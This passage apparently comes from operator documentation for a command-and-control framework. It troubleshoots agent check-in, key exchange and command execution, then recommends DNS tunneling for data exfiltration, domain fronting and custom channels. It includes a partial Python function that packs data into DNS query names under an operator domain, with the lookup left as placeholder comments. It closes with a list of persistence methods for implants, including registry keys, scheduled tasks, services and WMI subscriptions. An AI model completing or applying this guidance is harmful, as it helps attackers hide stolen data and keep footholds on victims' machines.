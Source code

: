 3. **Common Issues**:

| Issue | Possible Causes | Solutions |
|-------|----------------|-----------|
| Failed first contact | Network/firewall issues | Check connectivity, verify IP/port |
| Key exchange failure | RSA configuration issue | Verify public key availability |
| Command execution fails | Permission issues | Check agent execution context |
| Path rotation fails | Configuration or timing | Verify rotation interval settings |

## Advanced Techniques

### Custom Communication Channels

The default HTTP/HTTPS channels can be extended with:

1. **DNS Tunneling**: Implement DNS queries for data exfiltration
2. **Custom Protocol Handlers**: Create custom URI schemes
3. **Domain Fronting**: Route traffic through trusted domains

Example code snippet for implementing an alternative channel:

```python
def implement_dns_channel(domain, data):
    # Encode data into DNS queries
    chunks = [data[i:i+30] for i in range(0, len(data), 30)]
    results = []
    
    for i, chunk in enumerate(chunks):
        # Encode chunk into DNS-safe base32
        encoded = base64.b32encode(chunk.encode()).decode().lower()
        
        # Create DNS query format
        query = f"{i}.{encoded}.{domain}"
        
        # Perform DNS query and capture response
        # Code for DNS resolution goes here
        
        # Process response
        # Code for response handling goes here
        
    return results
```

### Persistence Mechanisms

Implement persistence with techniques like:

1. **Registry Keys**: For Windows payloads
2. **Scheduled Tasks/Cron Jobs**: For timed execution
3. **Service Installation**: Run as a system service
4. **WMI Event Subscriptions**: For advanced Windows persistence
